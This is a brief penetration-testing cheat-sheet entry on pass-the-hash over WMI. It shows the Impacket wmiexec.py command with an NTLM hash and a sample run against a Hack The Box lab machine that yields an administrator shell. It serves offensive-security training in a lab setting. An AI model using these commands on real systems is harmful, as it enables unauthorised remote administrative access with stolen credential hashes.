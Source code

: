 # WMI

## Pass The Hash

Use WMI to execute commands in a remote computer, if WMI is running:

```
wmiexec.py domain.name/username@machine.domain.name -hashes "LM:NTLM HASH HERE"
```

Putting the IP address instead of machine.domain.name should work as well.

Note that this can work even if you use the wrong domain name. Example:

```
┌──(x90slide㉿kali)-[~/exercises/htb/forest/exploit] 
└─$ wmiexec.py asd/Administrator@10.129.1.77 -hashes "aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6"
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 
SecureAuth Corporation

[*] SMBv3.0 dialect used 
[!] Launching semi-interactive shell - Careful what you execute 
[!] Press help for extra shell commands 
C:>whoami 
htb\administrator
```

